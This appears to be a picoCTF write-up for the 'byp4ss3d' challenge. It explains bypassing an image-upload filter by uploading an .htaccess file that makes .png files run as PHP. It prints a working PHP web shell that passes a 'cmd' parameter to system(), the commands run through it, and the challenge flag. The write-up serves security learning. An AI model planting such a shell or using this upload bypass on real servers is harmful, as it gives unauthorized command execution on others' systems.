


# Picoctf byp4ss3d

For this [ctf](https://play.picoctf.org/practice/challenge/518?difficulty=2&originalEvent=77&page=1) we start off with a normal webpage so my first thought is to try a double extension attack which  got flagged and result from server was ```Not allowed!``` next up i look at the page source, which does not reveal much i go on to check server response headers on upload request and see there are 2 things that stick out ```X-Powered-By: PHP/8.3.22``` i check if there are any know vulnerabilities which did not return anything useful

i go on to do the same for ```Server: Apache/2.4.62 (Debian)``` If ```.htaccess``` uploads are not restricted, it may be possible to modify how the server interprets file extensions. For example, adding ```AddType application/x-httpd-php .png``` would cause ```.png``` files to be treated as PHP and executed by the server.

it did allow me to upload ```.htaccess``` and override the previous one so i go on to try uploading a ```.png | contents are provided below``` with a shell and just like that i had command execution the first thing i do is ```ls``` which returns directory for the ids/images i then do ```ls -la ../../``` which returns ```31 Sep 26 18:13 flag.txt``` so i do ```cat ../../flag.txt```

```
<!DOCTYPE html>
<html>
<head>
    <title>Student ID Verification</title>
</head>
<body style="text-align: center; font-family: Arial, sans-serif; background-color: #f5f5f5; padding-top: 50px;">

    <h1 style="color: #34495e;">Verify Your Student Identity</h1>
    <p>Please upload a scanned copy or photo of your valid student ID to continue with the registration process.</p>

    <form action="upload.php" method="post" enctype="multipart/form-data" style="margin-top: 30px;">
        <label for="image">Upload Image File (JPG, PNG, or GIF):</label><br><br>
        <input type="file" name="image" id="image" required>
        <br><br>
        <input type="submit" value="Upload ID" style="padding: 10px 20px; background-color: #27ae60; color: white; border: none; cursor: pointer;">
    </form>

    <p style="margin-top: 40px; font-size: 0.9em; color: #7f8c8d;">
        Make sure the ID is clearly visible. Only image files are accepted.<br>
    </p>

</body>
</html>
```

```
< HTTP/1.1 200 OK
< Date: Sat, 28 Feb 2026 02:32:23 GMT
< Server: Apache/2.4.62 (Debian)
< X-Powered-By: PHP/8.3.22
< Vary: Accept-Encoding
< Content-Length: 974
< Content-Type: text/html; charset=UTF-8
```

```
.png shell

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

## Description

```
description from picoctf

A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

Additional details will be available after launching your challenge instance.
```

# Conclusion
<details> <summary>Click to reveal the flag</summary>picoCTF{s3rv3r_byp4ss_9b8609cc}</details>

```The server never accounted for .htaccess being uploadable, which allowed us to redefine how .png files are interpreted, causing them to execute as PHP.```

```A fun small ctf, i would suggest it personally i spent 20 minutes looking around trying to figure it out```

## Screenshots


